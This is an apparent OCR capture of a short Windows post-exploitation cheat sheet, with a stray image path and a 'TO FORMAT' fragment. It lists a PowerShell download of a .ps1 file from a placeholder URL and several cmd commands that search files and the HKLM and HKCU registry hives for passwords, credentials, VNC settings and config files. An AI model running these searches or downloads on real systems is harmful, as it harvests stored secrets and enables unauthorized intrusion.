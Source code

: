 TO FORMAT


echo $Env:PSModulePath

Invoke-WebRequest http://url-to/file.ps1 -OutFile C:\path\to\file.ps1

dir /s \*pass\* == \*cred\* == \*vnc\* == \*.config\*

findstr /si password \*.xml \*.ini \*.txt

reg query HKLM /f password /t REG_SZ /s

reg query HKCU /f password /t REG_SZ /s

